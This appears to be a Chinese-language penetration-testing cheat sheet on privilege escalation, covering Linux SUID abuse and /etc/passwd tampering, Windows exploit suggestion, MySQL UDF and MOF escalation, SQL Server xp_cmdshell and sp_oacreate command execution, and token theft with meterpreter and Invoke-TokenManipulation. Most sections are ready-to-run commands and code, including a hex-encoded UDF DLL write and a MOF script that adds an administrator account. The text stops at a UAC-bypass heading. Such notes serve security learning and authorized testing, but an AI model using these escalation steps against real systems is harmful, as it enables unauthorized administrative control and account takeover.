





# 1. Linux 提权

## 各种提权命令

[https://gtfobins.github.io](https://gtfobins.github.io/)

## 信息收集

以下命令可以发现系统上运行的所有 SUID 可执行文件。

```
#以下命令将尝试查找具有root权限的SUID的文件，不同系统适用于不同的命令，一个一个试
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000-print2>/dev/null
find / -user root -perm -4000-exec ls -ldb {} \;
```

已知的可用来提权的 linux 可行性的文件列表如下：

    nmap
    vim
    find
    bash
    more
    less
    nano
    cp
    screen 4.5.0

## find 提权

```
find . -exec /bin/sh \; -quit
```

## 修改/etc/passwd 文件提权

设法在/etc/passwd 文件中添加一条(如使用 teehee)

```
r00t::0:0:root:/root:/bin/bash
```

使用`su r00t`即可获得 root 权限

## DirtyCow

3.9 > 内核版本 > 2.6.22 copy on write 条件竞争漏洞
目标主机内必须有 gcc 编译器

使用`uname -rv`查看发行版本, 查看目标主机是否存在脏牛

在[www.exploit-db.com](www.exploit-db.com)中搜索查找脏牛 exp

## CVE-2021-3156 sudo 提权

sudo 版本要求:

- 1.8.2-1.8.31p2
- 1.9.0-1.9.5p1

## corntab 提权

# 2. Windows 提权

## 2.1 提权相关的信息收集

1. `systeminfo`
2. `net user`
3. `query user`
4. `tasklist /svc`
5. msf 进行内核漏洞信息收集

```
use multi/recon/local_exploit_suggester
```

6. 通过`Windows-Exploit-Suggester`进行缺失补丁信息收集
   首先通过`--update`参数获取补丁库
   再运行如下命令

```
python windows-exploit-suggester.py -d 2021-06-08-mssb.xls -i systeminfo.txt
```

## 2.2 Windows 漏洞提权

### 2.2.1 PrintNightmare (CVE-2021-1675)

详情见[PrintNightmare (CVE-2021-1675)](E:/mynote/漏洞收集/PrintNightmare.md)

# 3. 第三方服务提权

## 3.1 MySQL UDF 提权

### 3.1.1 利用条件

1. 根据 mysql 版本确定`udf.dll`路径

> 当 MySQL< 5.1 版本时，将 .dll 文件导入到 c:\windows 或者 c:\windows\system32 目录下
> 当 MySQL> 5.1 版本时，将 .dll 文件导入到 MySQL Server 5.xx\lib\plugin 目录下 (lib\plugin 目录默认不存在，需自行创建)。

2. 根据 MySQL 版本位数确定相应的`udf.dll`

3. `secure_file_priv`不为 NULL

### 3.1.2 利用步骤

1. 查看`secure_file_priv`的值

secure_file_priv 是用来限制 load dumpfile、into outfile、load_file() 函数在哪个目录下拥有上传或者读取文件的权限

```sql
show global variables like 'secure%';
     当 secure_file_priv 的值为 NULL ，表示限制 mysqld 不允许导入|导出，此时无法提权
     当 secure_file_priv 的值为 /tmp/ ，表示限制 mysqld 的导入|导出只能发生在 /tmp/ 目录下，此时也无法提权
     当 secure_file_priv 的值没有具体值时，表示不对 mysqld 的导入|导出做限制，此时可提权
```

我们先查看 secure_file_priv 的值是否为空，因为只有为空我们才能继续下面的提权步骤。

- 如果 secure_file_priv 为 NULL 是不能写入导出文件的。

- 如果 secure_file_priv 没有具体的值，则可以写入导出文件。

secure_file_priv 的值在 MySQL 数据库的安装目录的 my.ini 文件中配置。



2. 查看 plugin 的值

```sql
select Host,user,plugin from mysql.user where user = substring_index(user(),'@',1);
        当 plugin 的值为空时不可提权
        当 plugin 值为 mysql_native_password 时可通过账户连接提权
```

3. 查看系统架构以及 plugin 目录

```sql
show variables like '%compile%';             #查看主机版本及架构
show variables like 'plugin%';               #查看 plugin 目录
```

我们可以去 kali 中 /usr/share/metasploit-framework/data/exploits/mysql/ 目录下载相应位数的 .dll 文件。

4. 将 dll 文件写入 plugin 目录,并且创建函数
   创建一个表并将二进制数据插入到十六进制编码流中。你可以通过 insert 语句或将其分解为多个部分，然后通过 update 语句拼接二进制数据。

```sql
create table temp(data longblob);
insert into temp(data) values (0x4d5a90000300000004000000ffff0000b800000000000000400000000000000000000000000000000000000000000000000000000000000000000000f00000000e1fba0e00b409cd21b8014ccd21546869732070726f6772616d2063616e6e6f742062652072756e20696e20444f53206d6f64652e0d0d0a2400000000000000000000000000000);
update temp set data = concat(data,0x33c2ede077a383b377a383b377a383b369f110b375a383b369f100b37da383b369f107b375a383b35065f8b374a383b377a382b35ba383b369f10ab376a383b369f116b375a383b369f111b376a383b369f112b376a383b35269636877a383b300000000000000000000000000000000504500006486060070b1834b00000000);
select data from temp into dumpfile "G:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin\\udf.dll";
create function sys_eval returns string soname 'udf.dll';   #创建函数sys_eval
```

执行`select data from temp into dumpfile "G:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin\\udf.dll";` 时有可能会出现以下错误，因为当 MySQL 大于 5.1 时，默认是没有 lib\plugin 目录的。而 into dumpfile 在写入文件时也不能创建文件夹，所以也就报错了：Can't create/write to file


6. 创建`sys_eval`自定义函数

在将 udf.dll 文件写入 plugin 目录后，我们就可以使用 sys_eval 函数了。

```sql
create function sys_eval returns string soname 'udf.dll'
select * from mysql.func where name = 'sys_eval';    #查看创建的sys_eval函数
select sys_eval('whoami');                           #使用系统命令
```

## 3.2 MySQL MOF 提权

### 3.2.1 利用原理

mof 是 windows 系统的一个文件（在 c:/windows/system32/wbem/mof/nullevt.mof）叫做"托管对象格式"其作用是每隔五秒就会去监控进程创建和死亡。其就是用又了 mysql 的 root 权限了以后，然后使用 root 权限去执行我们上传的 mof。隔了一定时间以后这个 mof 就会被执行，这个 mof 当中有一段是 vbs 脚本，这个 vbs 大多数的是 cmd 的添加管理员用户的命令。

### 3.2.2 利用条件

1. `C:/Windows/System32/wbem/MOF`可读写
2. 需要 MySQL root 权限

### 3.2.3 利用步骤哦

1. 创建 nullevt.mof, 执行的系统命令为`net.exe user test 123456 /add`

```vb
#pragma namespace("\\\\.\\root\\subscription")

instance of __EventFilter as $EventFilter
{
    EventNamespace = "Root\\Cimv2";
    Name  = "filtP2";
    Query = "Select * From __InstanceModificationEvent "
            "Where TargetInstance Isa \"Win32_LocalTime\" "
            "And TargetInstance.Second = 5";
    QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $Consumer
{
    Name = "consPCSV2";
    ScriptingEngine = "JScript";
    ScriptText =
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user test 123456 /add\")";
};

instance of __FilterToConsumerBinding
{
    Consumer   = $Consumer;
    Filter = $EventFilter;
};
```

2. 导入 nullevt.mof

```sql
select load_file("C:/Temp/nullevt.mof") into dumpfile "C:/Windows/System32/wbem/MOF/nullevt.mof";
```

导入成功后, MySQL 会自动执行 mof 文件

## 3.3 SQLServer xp_cmdshell 提权

这个是带回显的命令执行

### 3.3.1 开启 cmdshell

```sql
EXEC sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO

EXEC sp_configure 'xp_cmdshell',1
GO
RECONFIGURE
GO

```

### 3.3.2 执行命令

```sql
EXEC master..xp_cmdshell 'whoami'
```

## 3.4 SQLServer sp_oacreate 提权

这个是不带回显的命令执行

### 3.4.1 利用原理

开启外围应用配置器的 OleAutomationEnabled, 并调用 sp_oacreate 模块执行系统命令

### 3.4.2 利用步骤

1. 判断 sp_oacreate 是否开启

```sql
declare @shell int exec sp_oacreate 'wscript.shell'
```

2. 开启 sp_oacreate

```sql
EXEC sp_configure 'show advanced options', 1;reconfigure;
EXEC sp_configure 'Ole Automation Procedures', 1; reconfigure;
```

3. 执行命令

```sql
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,’c:/windows/system32/cmd.exe /c whoami > c:/Temp/cmd.txt'
```

# 4. Token 窃取与利用

## 4.1 Windows Token 介绍

Windows Token 其实叫 Access Token(访问令牌)，它是一个描述进程或者线程安全上下文的一个对象。不同的用户登录计算机后， 都会生成一个 Access Token，这个 Token 在用户创建进程或者线程时会被使用，不断的拷贝。当用户登录后, 每个进程的创建都会由 LSA(Local Security Authority)分配一个 Token(如果创建进程时指定了 Token, 则 LSA 就会使用这个 Token), 否则就拷贝一个父进程的 Token。

这也就解释了 A 用户创建一个进程而该进程没有 B 用户的权限，因为默认打开一个进程都是以自身的令牌去验证启动的。

## 4.2 Windows Token 种类

Access Token 种类分为:

1. 主令牌, 用户活动时使用的令牌
2. 模拟令牌, 用户注销后, 主令牌自动切换为模拟令牌.

一般情况下，用户双击运行一个程序，都会拷贝`explorer.exe`的 Access Token，这也是某些 api 函数基于反调试的时候的判断点。比如在程序启动后，会有一个`STARTUPINFO`的结构体变量，来保存程序启动的信息，我们通过其中类型为`DWORD`的参数的改变来检测程序是正常运行还是在调试器中运行的。

**提权的利用点**：当用户注销后，系统将会使主令牌切换为模拟令牌，而模拟令牌不会被清除，只有在重启机器后才会清除

**最重要的点**：正常的令牌模拟和窃取，都是需要过了 UAC 的管理员/SYSTEM 权限。并且由于权限的问题，当前账号只能看到自己的访问令牌和比自己权限低的账号的访问令牌，也就是说这种提权方法不适用于 低权限 -> 高权限

## 4.3 Windows Access Token 结构

- 用户帐户的安全标识符(SID)
- 用户所属的组的 SID
- 用于标识当前登录会话的登录 SID
- 用户或用户组所拥有的权限列表
- 所有者 SID
- 主要组的 SID
- 访问控制列表
- 访问令牌的来源
- 令牌是主要令牌还是模拟令牌
- 限制 SID 的可选列表
- 目前的模拟等级
- 其他统计数据

## 4.4 Access Token SID(Security Identifiers) 安全标识符

安全标识符是一个唯一的字符串，它可以代表一个账户、一个用户 组、或者是一次登录。通常它还有一个 SID 固定列表，例如 Everyone 这种已经内置的账户，默认拥有固定的 SID。

SID 的表现形式:

域 SID-用户 ID
计算机 SID-用户 ID
SID 列表都会存储在域控的 AD 或者计算机本地账户数据库中。



## 4.5 Windows Access Token 利用

在拥有当前系统高权限的时候, 可通过利用当前系统中存在的历史令牌进行令牌伪造, 令牌可以用来创建进程, 伪造用户操作等.

例如 msf 上线系统后, 使用`list_tokens -u`查看当前可伪造的令牌, 使用`impersonate_token "WIN-K5V2T3U2K4Q\level"`窃取令牌:



meterpreter 令牌伪造详细的命令列表如下:

```
getuid # 查看当前会话的uid
use incognito  # 使用伪装模式
list_tokens -u  # 列出会话令牌, 需要管理员权限
impersonate_token "xxxxx"  # 窃取某个用户的令牌
rev2self   # 返回之前的AccessToken权限
```

## 4.6 Access Token 令牌伪造与窃取

窃取和伪造令牌使用如下工具:

- incognito(msf/Windows)
- Invoke-TokenManipulation(PowerShell)

### 4.6.1 incognito 介绍

incognito 工具是用来窃取目标主机的的令牌或假冒用户, 在 Windows 上有特有的脚本, 在 msf 中也集成了模块.

### 4.6.2 incognito 窃取令牌

假设现在使用了 msf 上线了一个 meterpreter 会话, 那么可以使用 incognito 模块获取当前系统中所有令牌

1. 在 meterpreter 中执行`load incognito`
2. 执行`list_token -u`可以看到当前主机中所有的令牌


3. 在 shell 中执行 ps 可以查看进程信息以及其 token
4. 可通过`steal_token`命令窃取指定进程的 token



5. 通过`impersonate_token xxx`导入 token
6. 导入后, 可通过 execute 利用伪造的 token 执行进程

## 4.7 使用 Invoke-TokenManipulation 伪造令牌

Invoke-TokenManipulation 是利用 PowerShell 编写用来窃取目标主机的令牌或假冒用户的脚本. 必须以管理员身份执行.

### 4.7.1 利用

1. 首先通过下载[Invoke-TokenManipulation.ps1](https://github.com/ottrur/PowerShell/blob/master/Invoke-TokenManipulation/Invoke-TokenManipulation.ps1)并导入

```
import-module Invoke-TokenManipulation.ps1
```

2. 枚举 Token

```
Invoke-TokenManipulation –Enumerate
```

3. 通过获取的 Token 创建进程

```
Invoke-TokenManipulation -CreateProcess  "cmd.exe" -Username "nt authority\system"
```

# 5. UAC 绕过

## 5.1 UAC 机制
